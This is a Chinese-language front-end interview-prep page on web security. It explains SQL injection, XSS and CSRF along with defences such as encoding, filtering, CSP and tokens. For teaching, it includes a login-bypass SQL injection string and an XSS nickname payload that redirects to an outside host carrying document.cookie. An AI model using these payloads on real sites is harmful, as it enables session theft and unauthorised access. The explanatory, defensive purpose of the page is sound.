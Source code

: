 ```yaml
---
nav:
  title: 面试
  path: /interview
group:
  title: 💊 面试题库
  order: 2
---
```


# 安全

1. 引用 js 包（内容很少，也可以将内容拷贝出来，直接引用方法）
2. 将需要提交的数据经过 filter 即可，如下：

```javascript
浏览器自带转换为字符串
var newValue = safetools.encode(value)

正则加密（可能有兼容）
var newValue = safetools.reEncode(value)

正则解密（可能有兼容）
var newValue = safetools.reDecode(value)
```

> tag: 前端交互，涉及到数据流动并需要在返回在页面上显示的，一定要经过后端！

## 在项目里关于前端安全，可以采取以下措施

使用 HTTPS 确保数据在传输过程中的安全性。
验证用户输入，防范 XSS 攻击，使用 CORS 控制跨域资源访问。
更新依赖库和框架，以修补已知的安全漏洞。
避免在前端存储敏感信息，如密码，而依赖后端处理。
定期审查和更新安全策略，以适应新的威胁和最佳实践。

## 常见的攻击手段

### 1. SQL 脚本注入攻击于与防御

#### 概念

> 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的 SQL Injection，即 SQL 注入.

#### 场景

语句

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果恶意填入：

> userName = "1' OR '1'='1"; passWord = "1' OR '1'='1";

既可实现无密码登录，美滋滋吧...

#### 处理方式

前端和 XSS 处理类似，对传递的数据进行筛选，重点是后端对数据的处理！

### 2. XSS 攻击与防御

#### 概念

> 跨站脚本（Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。
> XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript，但实际上也可以包括 Java，VBScript，ActiveX，Flash 或者甚至是普通的 HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。

#### 类型

##### 简单分类

1. 反射型 xss

通过一次 xss 请求，将数据渲染到页面，请求 -> 返回数据，例子：搜索

2. 储存型 xss

通过一次 xss 请求，直接将数据储存在数据库，下次调用无需继续请求，例如：评论

##### 复杂分类

1. client 型
2. server 型

#### 处理方式

- 编码

> 将 > ( 标签转换为字符串，可以处理大多数 xss 攻击

- 过滤

> 有的语句并不完全依赖<>标签，例如 src="javascript:alert(1);"

- 校正

> 这个照理来说应该后端处理，目前没碰到这种场景

```javascript
> 一个直播平台，用户可以进入观看，主播可以设置自己的昵称:
var starNickName = '${starNickname}'
```

这怕是要翻水水了...假设是我是主播，我把昵称设置为：

```javascript
';window.location.href="http//:blog.jzxer.cn/?cook=" + document.cookie + '&url=' window.location.href;''
```

这一串如果传到后端，而后端又没有校正的话的话，这怕是傻眼了...观众进来一个死一个，我应该也会进去蹲几天吧，吧。。。

- CSP

```html
在头部加入：

<meta
  http-equiv="Content-Security-Policy"
  content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:"
/>
```

meta：不信任任何 URL，即不加载任何资源样式表只信任 cdn.example.org 和 third-party.org 框架 (frame) 必须使用 HTTPS 协议加载 其他资源：没有限制 启用后，不符合 CSP 的外部资源就会被阻止加载。

> 注意：该属性目前比较新，hotfix 和 chorme 支持较好，并不适用于所有的浏览器。

### 3. CSRF

> 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的 Web 应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

#### 处理方式

- 验证码

在请求的同时，带个 token,或者验证码

- Referer Check

这个可以伪造...但加入更保险

> 注意：如果网站有 XSS 漏洞或者一些跨域漏洞，可能导致 Token 泄露。 在 XSS 攻击下，读取 Token 值，然后再构造出一个合法的请求，可以称为：XSRF。

### 小结

web 安全是个需要长期坚持的事情，没有绝对安全的产品，我们需要做到的就是能够提前预防和及时修复。
